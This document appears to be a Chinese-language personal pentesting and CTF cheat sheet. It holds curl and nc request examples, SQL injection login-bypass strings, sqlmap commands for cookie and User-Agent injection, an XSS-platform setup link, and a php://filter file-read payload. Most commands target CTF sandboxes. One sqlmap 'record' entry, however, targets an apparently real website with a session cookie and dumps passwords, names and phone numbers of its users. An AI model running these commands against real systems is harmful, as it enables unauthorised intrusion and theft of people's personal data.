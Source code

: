 # URL请求

## curl

- 发送普通POST请求

```shell
curl -X POST -d "key1=value1&key2=value2" http://example.com/api
```

- 发送JSON类型的POST请求

```shell
curl -X POST -H "Content-Type: application/json" -d '{"key1": "value1", "key2": "value2"}' http://example.com/api
```

- 保存Cookie

```bash
curl -c cookies.txt http://127.0.0.1:80
```

- 使用Cookie

```bash
curl -b cookies.txt http://127.0.0.1:80
```

## nc

- 发送POST请求

```shell
POST /path HTTP/1.1
Host: example.com
Content-Type: application/x-www-form-urlencoded
Content-Length: 78

a=ndna
```

# SQLMap

> [教程](https://www.cnblogs.com/ichunqiu/p/5805108.html)
>
> [参数](https://blog.csdn.net/NSQ0207/article/details/131837727)



## 万能密码

- ' or 1=1#
- ' or true #
- '='   '='

## Cookie注入

```shell
sqlmap -u "http://www.xxx.org/jsj/shownews.asp" --cookie "id=31" --table --level 2
```

## UA注入

```shell
sqlmap -u "http://challenge-1250c3ebdebfc6f0.sandbox.ctfhub.com:10800/" --level=3 --risk=3 --headers="User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/116.0" -D sqli -T wxmokipbcq -C xkxiyjbmux --batch --dump
```

## 记录

```shell
sqlmap -u http://hbgydx.centj.net/index.php/Client/Active/addseat?id=20 --cookie "PHPSESSID=cir6gf4isu908apap1q3qg7ggg" --dump -D hbgydx_centj_net -T client -C "password,user_class,user_college_name,user_grade,user_name,user_nu,user_phone" --tamper=between 
```



# XXS

## xxs-platform平台搭建

- [github地址](https://github.com/78778443/xssplatform)
- [教程](https://segmentfault.com/a/1190000021899373)
- Tips：想要远程访问，最后记得更改nginx的监听路径

# php

## include绕过

- http://8615a72a-84b2-4fa3-b669-e177a16528c1.node5.buuoj.cn:81/index.php?file=php://filter/read=convert.base64-encode/resource=/var/www/html/flag.php

- [绕过方法](https://bbs.huaweicloud.com/blogs/400777)
